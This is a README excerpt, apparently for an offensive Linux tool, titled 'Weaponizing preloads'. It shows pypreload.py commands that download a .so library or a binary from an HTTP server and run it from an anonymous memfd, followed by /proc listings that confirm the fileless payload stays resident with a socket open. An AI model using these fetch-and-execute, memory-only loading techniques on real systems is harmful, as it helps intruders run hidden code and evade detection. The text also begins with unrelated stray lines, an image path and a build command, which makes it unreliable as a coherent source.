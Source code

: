 Building with more featured cp ../../ports/unix/mpconfigport.h mpconfigport.h


### Weaponizing preloads
- load via memfd_create() > 3.17
- load via /dev/shm



#### .SO preload
`./pypreload.py  -t so -l http://127.0.0.1:8080/libmctor.so -d bash -c /root/Code/zombieant/src/main`

```
root@kali:~/Code/zombieant# ls -l /proc/56417/fd
total 0
lrwx------ 1 root root 64 Feb 17 17:55 0 -> /dev/pts/6
lrwx------ 1 root root 64 Feb 17 17:55 1 -> /dev/pts/6
lrwx------ 1 root root 64 Feb 17 17:55 2 -> /dev/pts/6
lrwx------ 1 root root 64 Feb 17 17:54 3 -> '/memfd:K2J5S6N4 (deleted)'
lr-x------ 1 root root 64 Feb 17 17:55 4 -> /dev/urandom
lr-x------ 1 root root 64 Feb 17 17:55 5 -> 'pipe:[3478476]'
lr-x------ 1 root root 64 Feb 17 17:55 7 -> 'pipe:[3478477]'
root@kali:~/Code/zombieant# ls -l /proc/56418/fd
total 0
lrwx------ 1 root root 64 Feb 17 17:55 0 -> /dev/pts/6
l-wx------ 1 root root 64 Feb 17 17:55 1 -> 'pipe:[3478476]'
l-wx------ 1 root root 64 Feb 17 17:55 2 -> 'pipe:[3478477]'

```
```
56417 pts/6    S+     0:00                  |   |   |   \_ bash                                                                             
56418 pts/6    S+     0:00                  |   |   |       \_ /root/Code/zombieant/src/main WINDOWID=33675758 MATE_DESKTOP_SESSION_ID=this-i
1
```

#### .BIN exec:

`./pypreload.py  -t bin -l http://127.0.0.1:8080/zaf -d bash`
parent gone (pypreload), zaf loaded

```
ls -l /proc/56509/fd/
total 0
lr-x------ 1 root root 64 Feb 17 18:08 0 -> /dev/null
l-wx------ 1 root root 64 Feb 17 18:08 1 -> /dev/null
lrwx------ 1 root root 64 Feb 17 18:08 2 -> /dev/null
l-wx------ 1 root root 64 Feb 17 18:08 3 -> /tmp/_mf.log
lrwx------ 1 root root 64 Feb 17 18:08 4 -> '/memfd:fa37Jn (deleted)'
lrwx------ 1 root root 64 Feb 17 18:08 5 -> 'socket:[3479923]'

```


[Ref]: (http://refspecs.linuxbase.org/LSB_3.1.0/LSB-generic/LSB-generic/baselib---libc-start-main-.html)
[Ref]: (https://linuxgazette.net/issue84/hawk.html)
[Ref]: (https://gist.github.com/apsun/1e144bf7639b22ff0097171fa0f8c6b1)